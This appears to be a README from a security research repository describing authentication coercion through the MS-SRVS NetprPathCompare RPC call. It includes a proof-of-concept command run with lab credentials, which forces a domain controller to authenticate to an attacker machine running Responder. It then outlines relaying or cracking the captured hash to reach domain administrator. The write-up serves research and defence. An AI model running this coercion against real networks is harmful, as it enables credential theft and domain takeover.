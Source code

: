 # MS-SRVS - Remote call to NetprPathCompare (opnum 32)

## Summary

+ **Protocol**: [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9)

+ **Protocol UUID**: 4b324fc8-1670-01d3-1278-5a47bf6ee188

+ **Protocol version**: 3.0

+ **SMB Named pipe**: `\PIPE\srvsvc`

+ **Function name**: [`NetprPathCompare`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/2b9b4b27-cef4-4f13-b9e7-f63f6261d709)

+ **Function operation number**: `32`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\srvsvc` and bind to the desired [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol (with uuid `4b324fc8-1670-01d3-1278-5a47bf6ee188` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\srvsvc` This pipe is connected to the protocol [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) and allows to call RPC functions of this protocol. We will then call the remote [`NetprPathCompare`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/2b9b4b27-cef4-4f13-b9e7-f63f6261d709) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetprPathCompare('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
long NetprPathCompare(
   [in, string, unique] SRVSVC_HANDLE ServerName,
   [in, string] WCHAR* PathName1,
   [in, string] WCHAR* PathName2,
   [in] DWORD PathType,
   [in] DWORD Flags
 );
```

## References

+ Documentation of protocol [MS-SRVS]: Server Service Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9

+ Documentation of function `NetprPathCompare`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/2b9b4b27-cef4-4f13-b9e7-f63f6261d709